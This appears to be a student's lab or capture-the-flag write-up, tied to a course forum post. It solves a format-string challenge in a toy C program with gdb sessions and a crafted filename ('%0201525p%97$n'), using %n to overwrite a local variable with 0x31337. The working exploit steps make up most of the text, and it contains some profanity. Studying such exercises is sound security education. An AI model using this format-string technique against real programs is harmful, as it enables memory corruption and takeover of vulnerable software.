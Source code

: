 https://piazza.com/class/lm3dh436w1h4oo/post/241
```
>>> gcc -o %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p -g -DEASY game.c
>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p $'\x34\x12\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) x/1xg argv[1]
0x7fffffffefc8: 0x00007fffffff1234
// This pointer is placed on the stack, the address of the pointer is aligned correctly (8 byte aligned, ends in either 0 or 8)

(gdb) p &i
$1 = (const int *) 0x7fffffffed04
// Now that we have the address of i, we can pass that in

>>> gdb --args env -i ./%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p $'\x04\xed
\xff\xff\xff\x7f' '' 'b'
(gdb) x/1xg argv[1]
0x7fffffffefc8: 0x00007fffffffed04
(gdb) p &i
$1 = (const int *) 0x7fffffffed04
```

We know that the first 6 arguments to a function are passed in the registers while the rest are on the stack. The first argument is of course the format string, so the first 5 `"%p"`'s will print the contents of the remaining 5 (non format string) argument registers. All remaining `"%p"`'s will print values off the stack. This means at a minimum, you need 6 `"%p"`'s, but the more stack values you have, the easier it is to verify you found the correct location. 

The caller is responsible for loading the first 6 arguments into registers then pushing the remaining arguments onto the stack, meaning that when you are at the first instruction of the `printf()` call in this case, the stack pointer will be pointing to one 8-byte block past the first stack argument (as the `call` assembly instruction will push the return address onto the stack)
```
(gdb) start
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) si 6
0x0000555555555094 in printf@plt ()
(gdb) p $rsp+8
$1 = (void *) 0x7fffffffecf0
(gdb) x/6xg 0x7fffffffecf0
0x7fffffffecf0: 0x00007fffffffee18      0x0000000455555230
0x7fffffffed00: 0x00000000ff800000      0x0000555555556004
0x7fffffffed10: 0x00007fffffffed04      0x68b9979b690eaf00
```
 - We now have the address of our malicious pointer (`0x7fffffffefc8`) which points to `i` as  well as the address of the 6th `printf` argument (`0x7fffffffecf0`)
 - Reminder of our malicious pointer address"
	```malicious
	(gdb) x/1xg argv[1]
	0x7fffffffefc8: 0x00007fffffffed04
	```
 - Now calculate the parameter offset we need for `printf()` to find the malicious pointer
```Math
(0x7fffffffefc8 - 0x7fffffffecf0) / 8 + 6 = ?
(728) / 8 + 6 = 97
```
 - This is how many bytes away the malicious pointer is from the known pointer being found by printf. Since each pointer is 8 bytes, divide by 8 to learn how many pointers we are. Finally, since our reference point is the 6th argument we add 6. Our malicious pointer is the 97th argument to printf
 - This can be tested as follows: (remember the length of the arguments need to remain the same)
```
>>> gcc -o $'%97$p------------------------------' -g -DEASY game.c
>>> env -i $'./%97$p------------------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'   ./0x7fffffffed04------------------------------you lose!
```
 - This is now printing out our malicious pointer. If we replace this with `%n` then we will overwrite `i`. Since the overwritten value would still be 0, we need to print `0x31337` characters before `%n`
 - Since that is way too many characters, linux won't let you do that. However we can double check first to make sure that the process is sound
```
>>> gdb --args env -i $'./fuck%97$n--------------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) p i
$1 = 0
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) p i
$2 = 0
(gdb) p argv[0]
$3 = 0x7fffffffefa2 "./fuck%97$n", '-' <repeats 26 times>
(gdb) n
15          if (i == 0x31337)
(gdb) p i
$4 = 6
```
 - You can see that the value of `i` has been overwritten to `6` after `printf` has been called

**0x31337**:
 - Insert string formatting, the filename can't be 200k+ characters but `printf` can do that for you
 - New filename: `'%0201525p%97$n---------------------'`
	 - `0x31337 = 201527`, this is reduced by 2 because for some reason `argv[0]` counts `./`
	 - This pads the `printf` statement with 201525 `0`s before calling `$n` on the 97th variable given to `printf`
```
>>> gdb --args env -i $'./%0201525p%97$n---------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'

(gdb) start
(gdb) p i
$1 = 0
(gdb) n
6           const char * str = "this is a string";
(gdb) n
7           const int i = 0;
(gdb) n
8           uint8_t j = 128;
(gdb) n
10         uint64_t k = (uint64_t)&i;
(gdb) n
12          uint8_t l = 255;
(gdb) n
14          printf(argv[0]);
(gdb) n
... big ass text string blowing up terminal
(gdb) p i
$1 = 201527
(gdb) n
17              printf("you win!\n");
```
```
>>> env -i $'./%0201525p%97$n---------------------' $'\x04\xed\xff\xff\xff\x7f' '' 'b'
000<... shitload of 0s>00007fffffffee18---------------------you win!
```

